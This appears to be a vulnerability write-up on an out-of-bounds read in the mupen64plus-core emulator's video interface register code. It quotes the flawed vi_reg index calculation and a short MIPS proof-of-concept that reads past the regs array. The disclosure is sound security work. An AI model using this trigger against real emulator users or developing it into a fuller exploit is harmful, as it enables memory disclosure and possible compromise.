

### BUG5: vi_reg overflow

#### Vulnerability Analysis

```c
// https://github.com/mupen64plus/mupen64plus-core/blob/2.6.0/src/device/rcp/vi/vi_controller.c#L86
void read_vi_regs(void* opaque, uint32_t address, uint32_t* value)
{
    struct vi_controller* vi = (struct vi_controller*)opaque;
    uint32_t reg = vi_reg(address);
    const uint32_t* cp0_regs = r4300_cp0_regs(&vi->mi->r4300->cp0);

    ...
    *value = vi->regs[reg];
}

// https://github.com/mupen64plus/mupen64plus-core/blob/2.6.0/src/device/rcp/vi/vi_controller.h#L65
static osal_inline uint32_t vi_reg(uint32_t address)
{
    return (address & 0xffff) >> 2;
}

// https://github.com/mupen64plus/mupen64plus-core/blob/2.6.0/src/device/rcp/vi/vi_controller.h#L51
struct vi_controller
{
    uint32_t regs[VI_REGS_COUNT];
    unsigned int field;
    unsigned int delay;

    unsigned int clock;
    unsigned int expected_refresh_rate;
    unsigned int count_per_scanline;

    struct mi_controller* mi;
    struct rdp_core* dp;
};
```

#### Reproduction

- poc.asm

```asm
0000000000000000 <_start>:
   0:   3c048440        lui     a0,0x8440
   4:   348403fc        ori     a0,a0,0x3fc
   8:   8c850000        lw      a1,0(a0)
   c:   00000000        nop
```


